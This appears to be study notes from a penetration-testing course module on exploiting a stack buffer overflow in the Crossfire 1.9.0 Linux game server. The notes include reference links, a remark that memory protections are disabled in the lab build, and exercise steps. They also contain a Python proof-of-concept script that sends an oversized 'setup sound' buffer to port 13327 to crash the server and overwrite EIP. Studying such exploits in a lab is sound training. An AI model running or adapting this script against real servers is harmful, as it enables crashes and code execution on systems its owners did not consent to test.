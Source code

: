 参考：
https://www.freebuf.com/vuls/260392.html
https://mrzudokorn.medium.com/linux-buffer-overflow-feat-crossfire-v1-9-0-abca623a6c63
https://www.doyler.net/security-not-included/crossfire-buffer-overflow-linux-exploit

## DEP, ASLR and Canaries
Recent Linux kernels and compilers have implemented various memory protection techniques such as Data Execution Prevention (DEP),328 Address Space Layout Randomization (ASLR),329 and Stack Canaries.330
Since the bypass of these protection mechanisms is beyond the scope of this module, our test version of Crossfire has been compiled without stack-smashing protection (stack canaries), ASLR, and DEP.


## 1-Fuzz the crash

```python
#!/usr/bin/python
import socket
host = "192.168.196.44"
crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```

### exer
```
12.2.1.1 Exercises
1. Log in to your dedicated Linux client using the credentials you received.
2. On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.
3. Attach the debugger to the Crossfire server, run the exploit against your Linux client, and
confirm that the EIP register is overwritten by the malicious buffer.
```
![](./images/bof/892451e7-258e-40e3-8653-c700bfc995bd.png)
